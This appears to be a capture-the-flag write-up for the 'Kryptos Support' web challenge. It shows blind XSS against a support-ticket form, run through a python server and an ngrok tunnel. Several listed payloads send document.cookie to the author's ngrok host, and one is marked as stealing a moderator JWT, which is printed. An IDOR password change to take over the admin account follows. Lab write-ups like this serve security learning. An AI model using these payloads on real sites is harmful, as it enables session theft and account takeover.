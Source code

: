 # Kryptos Support (web 300 points) 

## Description

Random intergalatic garbage about a website.

## Resources

Docker instance provided when you start the challenge

## Solution

Navigating to the website you are presented with a Kryptos Vault Support page that contains text about submitting tickets, with an input box and a submit button. Submitting garbage as a test doesn't return anything of value. The text on the page changes to say that an admin will view the ticket shortly. Nothing is refelcted or rendered back on the page.

In the top left corner is a button labelled "backend" that links to a /login page. I fiddled with some genereic SQLi commands but again the feedback is well sanitised so i cannot glean any information about whether or not the user is registered etc.

I'm going to assume that this is a Cross-Site Scripting (XSS) challenge referred to as Blind XSS as there is no feedback on the page as to what my commands are doing. This means i am going to need to spin up a server and host a page to catch redirects that i will insert as a payload into the input field.

[Here is a great reference for BXSS commands/payloads](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

ngrok bxss hosting tool

>python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

>ngrok http 8000

<p align="center"><img src="_images/emailpdf.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>

payload:
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

"><script src="https://56f5-59-102-23-9.au.ngrok.io"</script>                                          
"><script src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;alert(document.cookie);</script>
"><img src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;>
"<script>var i=new Image;i.src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;</script>

Worked, stole JSON cookie
<img src=x onerror="this.src='https://62ce-59-102-23-9.au.ngrok.io?'+document.cookie; this.removeAttribute('onerror');">

JSON
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5NjM5OTB9.Lrlo9B0Y11no7QXnxOaBJR6yPJunho4PWEnS31S1Mh4


parse token
https://jwt.io/

user: moderator
in browser developer options, create cookie under "Cookies" Name:session Value:<insertJWT>
browse to /tickets

settings
provides password change functionality without requiring current password. view source shows UID=100 for the user moderator.
close ngork and python server. load burpsuite. change password to password and intercept with burp, change UID=1 and admin password is changed. nav to login page and authenticate as admin:password


Flag = HTB{x55_4nd_id0rs_ar3_fun!!}


```
ngrok                                                                        (Ctrl+C to quit)
                                                                                             
Session Status                online                                                         
Session Expires               1 hour, 50 minutes                                             
Terms of Service              https://ngrok.com/tos                                          
Version                       3.0.3                                                          
Region                        Australia (au)                                                 
Latency                       46.555892ms                                                    
Web Interface                 http://127.0.0.1:4040                                          
Forwarding                    https://a3f8-59-102-23-9.au.ngrok.io -> http://localhost:80    
                                                                                             
Connections                   ttl     opn     rt1     rt5     p50     p90                    
                              2       0       0.00    0.00    0.00    0.00                   
                                                                                             
HTTP Requests                                                                                
-------------                                                                                
                                                                                             
GET /                          502 Bad Gateway                                               
GET /favicon.ico               502 Bad Gateway     
```




<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>



drop down list
<details>
  <summary>click here</summary>

+ text
+ text
</details>


link to named section
name it
<a id="zsteg"></a>
link to it
<a href="#zsteg">zsteg</a>
